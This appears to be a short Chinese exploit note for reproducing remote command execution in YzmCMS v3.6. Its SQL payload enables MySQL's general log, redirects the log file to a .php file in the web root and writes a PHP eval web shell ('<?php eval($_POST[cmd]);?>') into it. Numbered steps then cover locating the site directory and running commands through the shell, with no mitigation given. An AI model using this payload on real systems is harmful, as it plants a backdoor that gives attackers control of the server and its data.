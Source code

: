 ```yaml
---
title: YzmCMS v3.6 远程命令执行
id: zhfly3303
---
```


# YzmCMS v3.6 远程命令执行

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell 
```

##### 1、执行sql语句，查看mysql日志配置情况

![image](../img/973de0308b0b5b1933c9c56b257e1b8e.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![image](../img/023e936ec7fcb260e5e66ab100228688.png)

#### 3、分别执行下列sql语句，将脚本代码写入文件：

```
set global general_log = on; `set global general_log_file =CONCAT(“E:\study\WWW\YzmCMS\test.”,“php”); select ‘<?php eval($_POST[cmd]);?>’;` 
```

![image](../img/2f2b3388652c844952886f2df0041a81.png)

#### 4、提交参数，执行脚本代码：

![image](../img/d538301de6795547d78c5b6b1aad0f11.png)